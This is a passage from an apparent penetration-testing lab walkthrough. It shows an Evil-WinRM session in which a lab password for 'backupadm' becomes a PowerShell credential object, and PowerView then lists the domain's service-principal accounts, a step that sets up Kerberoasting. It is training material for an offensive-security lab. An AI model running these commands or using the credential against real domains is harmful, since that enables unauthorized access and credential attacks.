 So now, let's set up a PSCredential object and try again. First, we set up our authentication.

```powershell
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Now we can try to query the SPN accounts using PowerView and are successful because we passed our credentials along with the command.

```powershell
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

If we try again without specifying the `-credential` flag, we once again get an error message.

```powershell
get-domainuser -spn | select 

*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname 

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```
